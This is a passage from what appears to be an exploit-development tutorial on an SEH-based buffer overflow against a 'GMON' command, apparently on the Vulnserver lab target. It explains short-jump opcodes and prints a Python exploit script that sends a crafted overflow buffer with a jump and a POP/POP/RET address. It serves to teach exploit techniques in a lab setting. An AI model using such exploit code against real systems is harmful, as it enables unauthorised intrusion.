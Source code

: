 However, just after the injected address there’s a good 43 bytes buffer,
and before `nSEH` we had our 3500+ bytes buffer of `A`.

So, what’s next? That’s right\! We must jump around again\!

## Jump around

We only have 4 bytes to perform our first jump. Fortunately for us,
short jumps are only [2 bytes
long](https://thestarman.pcministry.com/asm/2bytejumps.htm).

We must perform a short jump of at least 8 bytes to pass **over** our
injected `POP/POP/RET` address and land on our `C` buffer. We can get
the needed opcodes using `nasm_shell.rb`:

``` console
$ msf-nasm_shell
nasm > jmp short +0xa
00000000  EB08              jmp short 0xa
```

**Fun fact:** Note that we told to perform a 10 byte (`0xa`) jump, and
the returned opcode was `EB08`. It’s because the `JMP` will calculate
the offset including the length of the `JMP` instruction, which is 2
bytes.

OK, with our short jump opcode we can update our exploit:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 1445
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And see if we could effectively jump over the `SEH` handler:
